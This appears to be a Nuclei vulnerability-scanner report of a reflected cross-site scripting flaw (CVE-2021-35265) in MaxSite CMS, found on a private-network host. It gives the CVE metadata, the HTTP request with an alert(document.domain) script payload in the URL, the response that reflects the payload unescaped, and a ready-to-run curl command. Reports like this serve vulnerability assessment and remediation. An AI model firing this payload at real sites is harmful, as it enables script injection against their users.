 ### MaxSite CMS XSS (CVE-2021-35265) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2021-35265**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/maxsite/page/1%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

**Timestamp**: Wed Jun 8 20:22:13 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | MaxSite CMS XSS |
| Authors | pikpikcu |
| Tags | cve, cve2021, maxsite, xss |
| Severity | medium |
| Description | A reflected cross-site scripting vulnerability in MaxSite CMS before V106 via product/page/* allows remote attackers to inject arbitrary web script to a page." |
| CVSS-Metrics | [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2021-35265](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2021-35265) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /maxsite/page/1%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.47 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 204
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/maxsite/page/1</script><script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- https://github.com/maxsite/cms/issues/414#issue-726249183
- https://nvd.nist.gov/vuln/detail/cve-2021-35265
- https://github.com/maxsite/cms/commit/6b0ab1de9f3d471485d1347e800a9ce43fedbf1a

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.47 Safari/537.36' 'http://192.168.198.179:8080/maxsite/page/1%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)